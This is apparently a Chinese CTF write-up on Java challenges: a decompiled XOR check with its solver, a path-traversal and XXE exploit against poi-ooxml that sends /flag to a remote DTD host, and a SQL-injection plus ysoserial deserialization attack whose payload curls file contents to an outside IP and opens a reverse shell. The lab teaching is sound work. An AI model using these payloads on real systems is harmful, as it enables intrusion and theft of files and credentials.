

# JAVA反编译&XXE&反序列化



CTF中JAVA考点技术：xxe，spel表达式，反序列化，文件安全，最新框架插件漏洞等。

一般在CTF的Java题目中都会设法给出源码或相关配置提示文件。

CTF中常见Web源码泄露总结：[CTF中常见Web源码泄露总结 - 珍惜少年时 - 博客园 (cnblogs.com)](https://www.cnblogs.com/xishaonian/p/7628153.html)

## Java简单逆向解密

题目：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#Java逆向解密)

知识点：java项目格式解析，加解密脚本等。

下载对应题目的提示文件

打开class文件源码：class反编译Java文件

```java
import java.util.ArrayList;
import java.util.Scanner;

public class Reverse {
    public Reverse() {
    }

    public static void main(String[] args) {
        Scanner s = new Scanner(System.in);
        System.out.println("Please input the flag ：");
        String str = s.next();
        System.out.println("Your input is ：");
        System.out.println(str);
        char[] stringArr = str.toCharArray();
        Encrypt(stringArr);
    }

    public static void Encrypt(char[] arr) {
        ArrayList<Integer> Resultlist = new ArrayList();

        for(int i = 0; i < arr.length; ++i) {
            int result = arr[i] + 64 ^ 32;
            Resultlist.add(result);
        }

        int[] KEY = new int[]{180, 136, 137, 147, 191, 137, 147, 191, 148, 136, 133, 191, 134, 140, 129, 135, 191, 65};
        ArrayList<Integer> KEYList = new ArrayList();

        for(int j = 0; j < KEY.length; ++j) {
            KEYList.add(KEY[j]);
        }

        System.out.println("Result:");
        if (Resultlist.equals(KEYList)) {
            System.out.println("Congratulations！");
        } else {
            System.err.println("Error！");
        }

    }
}
```

在主方法里面创建scanner对象s

通过`String str = s.next();`接受键盘的字符输入，然后将字符串化字符数组。

调用加密方法对字符数组进行加密

加密流程：

1. 遍历输入的字符数组，先后面加上64，然后再和32异或，十进制的32，转换为十六进制就是0x20。

   分析加密算法，得知加密算法时是将原始key先加64再异或32得到加密后的key

   注意：这里是先进行加法，再进行异或。异或之后传递给Resultlist。Resultlist的类型是`ArrayList<Integer>`

2. 然后遍历key数组，将里面的值添加到KEYList，KEYList的类型是`ArrayList<Integer>`

   如果Resultlist里面的值和KEYList的值相等，成功。

总结：

从键盘输入密匙，然后通过算法进行加密

我们需要通过这个加密代码流程，逆向到键盘输入的密匙。

解密脚本实现：

```java
public class Reverse_Ctf {
    public static void main(String[] args) {
        int[] KEY = new int[]{180, 136, 137, 147, 191, 137, 147, 191, 148, 136, 133, 191, 134, 140, 129, 135, 191, 65};
        String size_result = "";
        for(int i = 0;i<KEY.length;i++){
            size_result += (char)((KEY[i] ^ 32) - 64);
        }
        System.out.println(size_result);
    }
}
```


## 网鼎杯2020-青龙组-filejava-ctfhub

靶场地址：[CTFHub](https://www.ctfhub.com/#/challenge)

存在一个文件上传。

一般情况下在CTF中，Java会间接或者直接的给到源码。


先上传一个文件抓包查看。

请求：`/file_in_java/UploadServlet`


放出去发现上传成功，并且给出了下载地址。


点击下载（猜测可能存在文件下载漏洞）


将要下载的文件改为：`/file_in_java/DownloadServlet?filename=/WEB-INF/web.xml`

提示要下载的资源被删除（配置文件一定存在，因此可能是文件的路径不对）。


通过`../`进行逐渐的尝试获取到正确的配置文件地址：

`GET /file_in_java/DownloadServlet?filename=../../../../WEB-INF/web.xml`


读取web.xml文件。


这里存在三个servlet，依次构建相应的地址进行下载，但是这里的下载是post请求方式下载的（脑洞有点大）。

```python
filename=../../../../WEB-INF/classes/cn/abc/servlet/DownloadServlet.class
filename=../../../../WEB-INF/classes/cn/abc/servlet/ListFileServlet.class
filename=../../../../WEB-INF/classes/cn/abc/servlet/UploadServlet.class
```


下载后文件进行打开，在`DownloadServlet`里面发现`flag`的关键字禁止读取。


不能够直接的下载flag（而且没有命令/代码执行无法绕过）

在`UploadServlet`中发现到`poi-ooxml-3.10`，该版本存在XXE漏洞（CVE-2014-3529） 


什么是poi：

1. poi是一个Java调用office的api接口。
2. api一般以json和xml的格式传参，而xml容易照成xxe漏洞。

构造包含payload上传文件：

本地新建`excel-shell.xlsx`文件，修改后缀名为.zip，打开压缩包，其中有[Content-Types].xml文件。


修改[Content-Types].xml，第二行添加如下内容，保存。

```xml-dtd
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://ip:端口/xxx.dtd">
%remote;%int;%send;
]>
<root>&send;</root>
这里主机必须开启了网站才行,远程系统执行云主机网站的xxx.dtd文件
```

![修改[Content_Types]文件](./filejava/修改[Content_Types]文件.png)

将修改后的压缩包重新修改后缀为.xlsx文件。

在网站根目录下创建xxx.dtd文件：

```xml-dtd
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip地址:4848?p=%file;'>">
```

靶机先远程访问云服务器的xx.dtd文件，进而读取自身的flag文件。

然后将读取的信息发送到本地的4848端口。


监控本地的4848端口


上传excel-shell.xlsx文件。


即可在监听的`nc`中得到flag。

## 2020-网鼎杯-朱雀组-Web-think_java真题复现

进入靶场：[CTFHub](https://www.ctfhub.com/#/challenge)

靶场提示要登陆才能进行操作。


解题思路：

- 注入判断，获取对应数据库的帐号密码
- /swagger-ui.html接口测试，回显序列化token（rO0AB开头）
- ysoserial工具生成反序列化payload（反弹shell）-->base64编码-->最终payload
- 使用该payload访问接口/common/user/current
- 启动监听，获取flag：nc -lvvp 4444

**注入判断，获取管理员帐号密码：**

根据提示附件进行javaweb代码审计，发现可能存在注入漏洞。

先下载题目附件进行代码审计：

在Test文件里面获取数据库用户名/密码/路由

传参路由：`/common/test/sqlDict`。

POST请求。


拼接路径：`/common/test/sqlDict`，对`dbName`进行传参

构造请求，`dbName=myapp?id=' union select (select name from user)#` 数据库名是从源码中读出来的。


得到用户名： ctfhub。

这里的uer，name都是猜测的，如果是实战情况下，要先获取表名，载获取列名，然后再获取对应列的信息。


`dbName=myapp?a=' union select (select pwd from user)#` 得到密码。获取密码：`ctfhub_22327_5050`。


得到数据库的用户名和账户之后，但是没有地方登陆和上传。

查看源代码发现swagger模块。


swagger是一个让api保持同步的接口，方便前后端对与接口开发的同步。

**/swagger-ui.html接口测试：**


输入，刚才得到的账户和密码登陆：

```json
{
"password":"ctfhub_22327_5050",
"username": "ctfhub"
} 
```

登陆成功。


返回数据：

```json
{
  "data": "Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABmN0Zmh1Yg==",
  "msg": "登录成功",
  "status": 2,
  "timestamps": 1692668306119
}
```

JAVAWEB序列化的标志参考：

1. 一段数据以rO0AB开头，你基本可以确定这串就是JAVA序列化base64加密的数据。

2. 或者如果以aced开头，那么就是这一段java序列化的16进制。

此处登录成功时，发现回显的token是以rO0AB开头，猜测是一个JAVA序列化base64加密的数据。

我们需要先进行base64解码，然后再进行反序列化

直接解码会有乱码。


利用python脚本解码：

```python
import base64
de_code = "rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABmN0Zmh1Yg=="
en_code = base64.b64decode(de_code).hex()
print(en_code)
```


```
aced000573720018636e2e6162632e636f72652e6d6f64656c2e55736572566f764643317b04f43a0200024c000269647400104c6a6176612f6c616e672f4c6f6e673b4c00046e616d657400124c6a6176612f6c616e672f537472696e673b78707372000e6a6176612e6c616e672e4c6f6e673b8be490cc8f23df0200014a000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b02000078700000000000000001740006637466687562
```

再利用SerializationDumper解析数据（反序列化）`java -jar SerializationDumper.jar base64解码后的数据`。

里面有账号信息，即就是序列化的内容。


在当前用户信息的接口，存在身份认证token。


将之前返回的json文件中的data键的值输入：`Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABmN0Zmh1Yg==`

发现响应成功登陆。


如果将ctfhub的token改成包含恶意代码的token，就可以成功获取flag。

题目中token的流程：先base64解码，再反序列化。

构造恶意token：生成payload（反弹shell）-->反序列化-->base64编码-->最终payload

**获取flag**

`java -jar ysoserial.jar ROME "curl http://8.130.73.157:4848 -d @/flag" > shell.bin`，这里的ROME为ysoserial的参数。

首先，利用ysoserial进行序列化生成。


然后，利用python脚本将反序列化数据进行base64编码。

```python
import base64
file = open("shell.bin","rb")
source = file.read()
encode = base64.b64encode(source)
file.close()
print(encode)
```

本地服务器启动监听，执行：nc -lvvp 4444


将生成的反序列化内容写入到Token中，需要前面加上Bearer。


虽然监听到内容，但是并没有回显，说明flag这个文件不存在，又结合题目上说的flag在根目录下，随机文件名，意味着我们不知道flag的文件名，所以直接读取flag这种方法不行（必须想办法知道flag文件名才可以）


这里我使用/etc/passwd代替flag。


成功获取到其内容。


注意：这里的flag文件名不好获取，最后改变策略使用反弹shell的方法。

由于flag文件名是变化的，这里需要反弹shell到公网才行

使用由于无法进行文件上传，这里是使用命令执行（nc命令）

**生成反弹shell的payload**


将通过python编码生成的反序列化的base64的内容，通过token传递。


在服务器上监听端口。


成功监听到shell，进入根目录，拿到flag。


